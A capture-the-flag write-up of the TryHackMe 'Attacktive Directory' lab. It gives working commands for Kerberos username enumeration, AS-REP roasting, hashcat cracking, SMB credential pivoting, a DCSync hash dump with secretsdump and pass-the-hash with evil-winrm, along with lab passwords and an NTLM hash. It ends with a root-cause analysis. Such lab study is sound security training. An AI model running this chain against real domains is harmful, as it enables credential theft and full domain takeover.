










# TryHackMe: Attacktive Directory — Writeup

**Category:** Active Directory Enumeration & Exploitation
**Difficulty:** Easy/Medium
**Skills Demonstrated:** AD Enumeration (enum4linux-ng), Kerberos Username Enumeration (Kerbrute), AS-REP Roasting, Offline Hash Cracking (Hashcat), SMB Share Credential Pivoting, NTDS.dit Extraction via DRSUAPI (secretsdump), Pass-the-Hash (Evil-WinRM)

---

## Objective

Move from binary exploitation into classic Active Directory attack paths: enumerate a Windows domain controller, harvest valid usernames via Kerberos, abuse a misconfigured account to capture a crackable hash, pivot through an exposed SMB share to a second set of credentials, and use those credentials to extract the full domain hash database — ending in a pass-the-hash compromise of the Domain Administrator account.

---

## 1. Reconnaissance

```bash
nmap -sV 10.112.174.151
```



**Classic Domain Controller fingerprint:**

| Port | Service |
|------|---------|
| 53/tcp | Simple DNS Plus |
| 88/tcp | Microsoft Windows Kerberos |
| 135/tcp | MSRPC |
| 139/389/445/tcp | NetBIOS-SSN / LDAP / microsoft-ds |
| 464/tcp | kpasswd5 |
| 3268/tcp | LDAP (Global Catalog) |
| 3389/tcp | MS-WBT-SERVER (RDP) |

The combination of Kerberos, LDAP, and Global Catalog ports confirmed this as a Domain Controller, with the domain identified as **spookysec.local** and hostname **ATTACKTIVEDIREC**.

---

## 2. AD Enumeration via enum4linux

```bash
enum4linux -A 10.112.174.151
```



Confirmed the domain over LDAP and SMB, resolving the full domain picture:

```
Long domain name: spookysec.local
NetBIOS domain name: THM-AD
FQDN: AttacktiveDirectory.spookysec.local
Domain SID: S-1-5-21-3591857110-2884097990-301047963
```

An **unauthenticated (null) SMB session was accepted**, and SMB signing was required but the connection itself needed no credentials to establish. However, deeper RPC-based enumeration — users, groups, shares, policies, printers — all came back **STATUS_ACCESS_DENIED**, meaning the null session gave domain visibility but not object-level detail. That gap pointed straight toward Kerberos-based enumeration instead.

---

## 3. Kerberos Username Enumeration

Downloaded the room's known wordlists and used **Kerbrute** to validate real domain accounts directly against the KDC on port 88 — a technique that doesn't require any prior authentication and isn't logged the same way as an SMB/LDAP bind attempt:

```bash
wget https://raw.githubusercontent.com/sq00ky/attacktive-directory-tools/master/userlist.txt
wget https://raw.githubusercontent.com/sq00ky/attacktive-directory-tools/master/passwordlist.txt
kerbrute userenum -d spookysec.local --dc 10.112.174.151 userlist.txt
```



**16 valid usernames confirmed**, including `james`, `svc-admin`, `robin`, `darkstar`, `administrator`, `backup`, `paradox`, and `ori`. The `svc-admin` naming convention immediately stood out as a likely service account — historically a common target for Kerberos pre-authentication abuse.

---

## 4. AS-REP Roasting

Installed Impacket and its dependencies to use `GetNPUsers.py`, which requests a TGT for any account that has **Kerberos pre-authentication disabled** (`UF_DONT_REQUIRE_PREAUTH`) — no valid password needed to trigger this:

```bash
python3.9 -m pip install pyasn1 impacket
python3.9 /opt/impacket/examples/GetNPUsers.py spookysec.local/svc-admin -dc-ip 10.112.174.151
```



`svc-admin` had pre-authentication disabled and returned a full **AS-REP hash** (`$krb5asrep$23$...`). A second attempt against `backup` failed cleanly, confirming that account still required standard pre-auth — the misconfiguration was isolated to `svc-admin`. Cross-checked the hash format against Hashcat's example-hash reference to confirm **mode 18200** (Kerberos 5, etype 23, AS-REP) was the correct target.

---

## 5. Cracking the AS-REP Hash

```bash
hashcat -m 18200 hash.txt passwordlist.txt
```



Cracked almost instantly against the room's provided wordlist:

```
Status...........: Cracked
svc-admin@SPOOKYSEC.LOCAL:...:management2005
```

**Credentials obtained: `svc-admin:management2005`**

---

## 6. SMB Share Pivot

With valid domain credentials in hand, re-enumerated SMB — this time authenticated:

```bash
smbclient -L //10.112.174.151/ -U svc-admin%management2005
```



An unusual non-default share stood out: **`backup`**. Connected and pulled the single file inside:

```bash
smbclient //10.112.174.151/backup -U svc-admin%management2005
smb: \> get backup_credentials.txt
cat backup_credentials.txt
echo <base64_string> | base64 -d
```



The file contained a base64-encoded string that decoded to a second, fresh credential pair:

**Credentials obtained: `backup:backup2517860`**

---

## 7. NTDS.dit Extraction via DRSUAPI

Tested the `backup` account's privileges against the domain using Impacket's `secretsdump.py`:

```bash
python3.9 /opt/impacket/examples/secretsdump.py spookysec.local/backup:backup2517860@10.112.174.151
```



Direct RPC-based remote operations were denied, but Impacket automatically fell back to the **DRSUAPI method** — effectively a DCSync attack — and it worked. The `backup` account held domain-replication-equivalent rights despite its unassuming name, allowing a **full dump of every domain account's NTLM and Kerberos AES hashes**, including:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
```

This single misconfigured account effectively handed over the entire domain's credential database.

---

## 8. Pass-the-Hash to Domain Administrator

Used the extracted **Administrator NTLM hash** directly with Evil-WinRM — no cracking required, since NTLM hashes are usable as-is for authentication:

```bash
evil-winrm -H 0e0363213e37b94221497260b0bcb4fc -i 10.112.174.151 -u Administrator
```



Landed an interactive PowerShell session as **Administrator** — full domain compromise, without ever needing the plaintext password.

---

## 9. Flag Collection

```powershell
cd Desktop
cat root.txt
```



Also recovered supporting flags left in the compromised accounts' own profiles along the way — a `PrivEsc.txt` in the `backup` user's Desktop and a `user.txt` in `svc-admin`'s Desktop — confirming each stage of the chain corresponded to a genuinely distinct compromised identity, not just one shortcut to root.

---

## Root Cause Analysis

| Weakness | Impact |
|----------|--------|
| Anonymous/null SMB session permitted on the domain controller | Allowed unauthenticated attackers to confirm domain structure and begin enumeration without any credentials |
| `svc-admin` account configured with Kerberos pre-authentication disabled | Enabled AS-REP Roasting — an offline-crackable hash obtainable with zero prior access |
| Weak password policy allowed `svc-admin`'s password to be cracked from a small wordlist | Converted a low-effort AS-REP roast into fully usable domain credentials within seconds |
| Plaintext (base64-encoded) credentials stored in a file on an SMB share accessible to a low-privileged service account | Directly exposed a second, more privileged account (`backup`) with no additional exploitation needed |
| `backup` account granted directory-replication rights (DCSync-equivalent) without being a recognized administrative account | Allowed a full NTDS.dit hash dump — the single most damaging outcome available in an AD environment |
| NTLM hashes usable directly for authentication (pass-the-hash) | Meant cracking the Administrator's password was never required — the hash alone was full domain compromise |

---

## Key Takeaways

- **This room is the clearest "misconfiguration chaining" case in the series so far** — no single flaw was catastrophic on its own, but AS-REP Roasting → cracked password → SMB credential pivot → DCSync → pass-the-hash formed one unbroken privilege escalation chain from zero credentials to Domain Admin.
- **Kerberos pre-authentication is a frequent, high-value AD misconfiguration** — `GetNPUsers.py` requires no valid credentials at all to attempt, making it one of the lowest-cost, highest-reward checks in any AD engagement.
- **File shares are still one of the most reliable sources of leftover credentials** — the `backup` share had no business exposing a plaintext credential file, and it was the actual turning point of the entire attack, not the AS-REP roast.
- **Not all "non-admin" accounts are actually low-privileged** — `backup` had replication rights equivalent to Domain Admin. Privilege review in AD has to look at *effective* rights (ACLs, group memberships, delegated permissions), not account naming conventions.
- **DCSync via `secretsdump.py`'s DRSUAPI fallback is a devastating single command** once any account with replication rights is compromised — it doesn't require RCE or lateral movement, just the right permission.
- **This is exactly the class of misconfiguration my [AD Security Auditor](https://github.com/mohd-atif245/ad-security-auditor) tool is built to catch** — AS-REP-roastable accounts and over-permissioned replication rights are the kind of read-only, LDAP-detectable weaknesses the scanner flags before they become an attack chain like this one.

---

*Room: [TryHackMe — Attacktive Directory](https://tryhackme.com/room/attacktivedirectory)*
